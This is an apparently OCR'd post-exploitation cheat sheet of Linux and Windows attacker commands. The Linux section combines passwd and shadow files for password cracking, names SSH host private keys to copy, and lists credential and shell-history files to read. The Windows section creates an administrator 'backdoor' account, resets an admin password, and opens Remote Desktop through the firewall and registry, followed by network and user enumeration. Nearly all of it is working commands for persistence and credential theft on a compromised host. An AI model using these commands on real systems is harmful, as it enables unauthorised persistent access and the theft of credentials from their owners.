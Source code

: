     Combie shadow and passwd files:
       •  unshadow passwd.txt shadow.txt > passwords.txt

    Find listening services:
       •  netstat -alp

    Copy ssh private kets:
       •  /etc/ssh/ssh_host_dsa_key
       • /etc/ssh/ssh_host_key

    Check interseting files
       •  /var/log
       • /var/log/secure
       • /etc/passwd 
       • /etc/shadow 
       • ~/.bash_history
       • ~/.mysql_history 
    Check log files of some of the services:
       • http
       • ftp
       • ssh 
             ▪  grep 'sshd' /var/log/auth.log

    linux Post Exploitation:
       •  ifconfig


-------------------------------------------------------------------------------------------------------------------------------------


POST EXPLOITATION WINDOWS

    Backdoor User:
       •  net user backdoor backdoor@123 /add
       •  net localgroup administrators backdoor /add
       •  net localgroup "Remote Desktop Users" backdoor /add
       • net user admin newpassword 
    Enabling RDP
       •  netsh firewall add portopening TCP 3389 "Open Port 3389" ENABLE ALL
       •  netsh firewall set portopening TCP 3389 proxy ENABLE ALL
       •  netsh firewall set service RemoteDesktop enable
       •  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

    Disable RDP
       •  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
       •  netsh firewall delete portopening protocol=TCP port=3389


    Check log files of some of the services:
       •  http
       • ftp
       • ssh

    Windows Post Exploitation:
       •  Arp -a 
       •  netstat -ano 
       •  ipconfig /all 
       •  route print 
       •  schtasks /query /fo LIST /v 
       •  netsh firewall show config
       •  Net group
       •  Net localgroup
       •  (for /R ".\" %A in (*.txt) do echo %~fA %~zA) | findstr /v "echo
       •  Net share
       •  Power shell to Enumerate users and computers using powershell
